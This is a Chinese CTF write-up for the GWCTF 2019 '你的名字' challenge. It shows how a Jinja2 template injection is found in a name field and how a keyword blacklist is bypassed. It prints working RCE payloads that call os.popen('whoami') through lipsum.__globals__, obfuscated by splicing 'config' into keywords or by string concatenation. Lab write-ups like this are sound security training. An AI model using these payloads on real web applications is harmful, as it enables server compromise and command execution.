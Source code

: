 ```yaml
---
title: '[GWCTF 2019]你的名字'
date: 2024-09-22 19:49:03
tags:  ssti
categories: 刷题笔记
---
```


## [GWCTF 2019]你的名字

我们往姓名处输入一个1，页面回显一个1

![image-20240922201710345](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409222017383.png)

这种情况，我们第一时间想到的是ssti模版注入

我们输入{{7*7}},得到的居然是php报错

<!--more-->

![image-20240922201823100](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409222018192.png)

```
但我们输入{7*7}回显就正确了。说明题目过滤了{{}}，所以我们就只能使用{}包含的ssti语句
```

我们尝试

```
{%set a="test"%}
```

![image-20240922202208766](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409222022790.png)

页面没有报错，但也没有回显，说明正常执行了这句话，确定了考点是模板注入后就得想想怎么绕过了

一篇[模板注入绕过相关文章](https://xz.aliyun.com/t/6885#toc-4)

通过查询资料，我们发现

```
{%print %}
```

这种形式可以进行回显

试了下

```
{%print lipsum %}
```

，终于有回显了，有回显了就好开始下面的构造了，至于一步步构造payload的过程有疑惑的，可以看一看[ssti相关文章](https://blog.csdn.net/cjdgg/article/details/115770395?spm=1001.2014.3001.5501)

![image-20240922202901141](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409222029208.png)

这里还得补充一点，

```
{%print %}
```

形式下，若果你构造的payload是正常的ssti用到的语句却没有回显，就说明你的语句中可能有关键字被过滤了，如

```
{%print ‘’.class %}
```

执行之后没有任何的回显，但

```
{%print ‘’.clconfigass %}
```

成功执行有回显，这说明class被过滤了

这里给出源码的黑名单

```
blacklist = ['import', 'getattr', 'os', 'class', 'subclasses', 'mro', 'request', 'args', 'eval', 'if', 'for',
                 ' subprocess', 'file', 'open', 'popen', 'builtins', 'compile', 'execfile', 'from_pyfile', 'local',
                 'self', 'item', 'getitem', 'getattribute', 'func_globals', 'config']
for no in blacklist:
    while True:
        if no in s:
            s = s.replace(no, '')
        else:
            break
return s
```

我们发现代码是先从黑名单中取出一个字符串经过循环过滤再进行下一个字符串的过滤，因为config字符串是在黑名单的最后一个，所以黑名单中前面字符串的过滤都已经结束了，再进行config的过滤，所以我们在过滤字符中加入config就可以绕过

所以最终payload

```
{%print lipsum.__globals__.__builconfigtins__.__impoconfigrt__('oconfigs').poconfigpen('whoami').read()%}

```

![image-20240922203110271](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409222031348.png)

然后进行rce找flag

也可以拼接绕过

```
{%print lipsum.__globals__['__bui'+'ltins__']['__im'+'port__']('o'+'s')['po'+'pen']('whoami').read()%}

```

```
{%print lipsum.__globals__['__builtins__']['__import__']('os')['po'+'pen']('whoami').read()%}
```

